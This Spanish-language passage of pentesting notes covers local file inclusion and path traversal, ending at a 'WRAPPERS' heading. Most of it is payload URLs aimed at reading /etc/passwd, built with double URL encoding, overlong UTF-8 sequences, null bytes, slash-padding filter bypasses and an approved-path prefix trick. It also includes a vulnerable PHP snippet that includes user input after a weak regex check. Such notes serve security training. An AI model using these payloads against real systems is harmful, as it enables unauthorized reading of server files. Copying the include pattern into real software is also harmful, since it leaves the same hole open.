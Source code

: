 en doble encoding tenemos esto:

%252f: es '/' en urlencode doble
%252e: es '.' en urlencode doble

```bash
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd
http://example.com/index.php?page=
http://example.com/index.php?page=..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
http://example.com/index.php?page=..%252f..%252f..%252fetc/passwd
```

### UTF-8 ENCODING

en utf-8 encoding:

```bash
http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd%00

```

bypass de filtros:

```bash
http://example.com/index.php?page=....//....//etc/passwd
http://example.com/index.php?page=..///////..////..//////etc/passwd
http://example.com/index.php?page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd

```

### RUTAS APROBADAS

Algunas aplicaciones web también pueden usar expresiones regulares para garantizar que el archivo que se incluye se encuentre en una ruta específica. Por ejemplo, la aplicación web con la que hemos estado tratando solo puede aceptar rutas que estén bajo el directorio `./languages`, de la siguiente manera:

```php
if(preg_match('/^\.\/languages\/.+$/', $_GET['language'])) {
    include($_GET['language']);
} else {
    echo 'Illegal path specified!';
}
```

Para encontrar la ruta aprobada, podemos examinar las solicitudes enviadas por los formularios existentes y ver qué ruta usan para la funcionalidad web normal. Además, podemos fuzzear directorios web bajo la misma ruta y probar diferentes hasta que consigamos una coincidencia. Para omitir esto, podemos usar el recorrido de la ruta y comenzar nuestra carga útil con la ruta aprobada, y luego usar `../`para volver al directorio raíz y leer el archivo que especificamos, de la siguiente manera:

```bash
/index.php?language=./languages/../../../../etc/passwd
```

## WRAPPERS
